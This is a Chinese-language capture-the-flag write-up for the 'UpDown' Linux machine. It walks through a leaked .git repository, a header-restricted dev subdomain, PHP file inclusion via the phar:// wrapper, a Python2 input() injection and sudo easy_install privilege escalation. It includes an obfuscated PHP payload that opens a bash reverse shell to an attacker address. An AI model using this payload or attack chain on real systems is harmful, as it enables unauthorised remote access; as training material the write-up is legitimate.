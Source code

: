 # UpDown

UpDown 是一台中等难度的 Linux 机器，暴露了 SSH 和 Apache 服务器。在Apache服务器上，有一个Web应用程序，允许用户检查网页是否已启动。服务器上标识了一个名为“.git”的目录，可以下载以显示目标上运行的“dev”子域的源代码，该子域只能通过特殊的“HTTP”标头访问。此外，子域允许上传文件，导致使用“phar://”PHP 包装器远程执行代码。Pivot 包括将代码注入“SUID”“Python”脚本，并以“开发人员”用户身份获取 shell，该用户无需密码即可使用“Sudo”运行“easy_install”。这可以通过创建恶意 python 脚本并在其上运行“easy_install”来利用，因为提升的权限不会被丢弃，从而允许我们以“root”身份保持访问权限。

---

## 外部信息收集

### 端口扫描

循例nmap

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/cf011ed5-e81b-62d1-fe26-7e817d921e1d.png)

### Web枚举

80

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/e544fb3b-f2fd-26e1-e6c3-94a0004efd63.png)

看到这个，我下意识的去扫了一下vhost，我觉得可能会打SSRF

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/85731861-15da-786c-2e09-460d435e230e.png)

经典403

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/cc3661e6-f776-6dfa-5d46-2358022ed725.png)

在主站，开了debug之后会返回响应

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/07c3f7ea-36a9-d736-a1a8-a4624f6c135b.png)

并且输入还有过滤

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/61f099d4-6561-9ac9-ebdf-b6e090c05476.png)

对主站目录扫描发现了/dev

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/56c9d75d-4bb2-6201-40e0-7221300f0025.png)

对/dev再扫能发现.git

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/96a46194-6d33-b3fe-117d-16a92e553e60.png)

直接跑githacker

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/578fb0b8-6b6b-833f-6c99-fbfb5d8d01ee.png)

这是dev子域的源码

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/ca7e1187-996f-95b0-5018-5636a0957c59.png)

.htaccess，只允许设置了Special-Dev请求头的访问

```xaml
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```

设置请求头后访问dev子域

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/86fdd327-f8c8-959c-1a22-c07fe3f18738.png)

在burp中设置请求头

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/adae02d9-ca2b-0700-12ac-13f61825d983.png)

浏览器访问dev子域

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/661bb588-327f-448a-b24d-965323e95347.png)

## Foothold

回去看源码，先看index.php

```php
<b>This is only for developers</b>
<br>
<a href="?page=admin">Admin Panel</a>
<?php
	define("DIRECTACCESS",false);
	$page=$_GET['page'];
	if($page && !preg_match("/bin|usr|home|var|etc/i",$page)){
		include($_GET['page'] . ".php");
	}else{
		include("checker.php");
	}	
?>
```

这我咋一看，可以尝试之前的iconv包装器

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/d6f65b69-92fa-a854-60e3-0dd26ff9adae.png)

打成功了，只是有disable functions，连mail和error_log也禁了，thm祖传打法打不了

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/35a0583c-2674-c084-d96b-8015c475c58a.png)

把phpinfo保存到文件

```bash
┌──(ming👻m1n9k1n9-parrot)-[~/linux-tools_and_exp/dfunc-bypasser]
└─$ python3 ./dfunc-bypasser.py --file ../../pi.html           1 ⨯
...
...
Please add the following functions in your disable_functions option: 
proc_open
If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket
```

proc_open可用

iconv生成的code太长了，会414

在上传文件的时候，上传zip它会报错，导致最终没有删除掉文件，再利用index.php的文件包含，phar伪协议来利用它

cmd.php

```php
<?php proc_open(base64_decode('L2Jpbi9iYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE4Lzg4ODggMD4mMSIK'),array(),$something);?>
```

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/a64ef104-8964-926e-334b-83be1b7720ca.png)

上传之后通过phar访问

	?page=phar://uploads/95f5ffb7f5709c9a5c9eae5faf0795d5/shell.txt/shell

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/c838226e-e2c3-f7a8-1742-28c99a5f6fb8.png)

## 本地横向移动

在developer家目录发现www-data组可读的dev/

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/fe1f93e1-0f29-e21e-f775-fd45393b2a5f.png)

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/9e46fa24-7df6-ddff-d8a2-d226e4632a03.png)

.py

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/ede4d731-02da-89ab-72e7-a780a663120c.png)

这是python2的代码，在老python2中，input并不像python3一样会将任何输入转换为str，所以也就导致了它可以code注入

加上已经打包好的二进制文件是具有developer的suid的，所以直接bash

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/d0e1de79-5cce-93bf-94b1-51b518701381.png)

## 本地权限提升

sudo -l

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/eb001fea-0759-7f68-986b-3cf45fc4e034.png)

strings发现是个python

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/86134d53-9261-5eff-a5a8-e5d28aeda50f.png)

垃圾桶

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/65285bb3-c3fd-1ad3-9355-38107dccd854.png)

无脑提权

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/4a652843-885e-284d-89dc-bb1b4b4403e8.png)

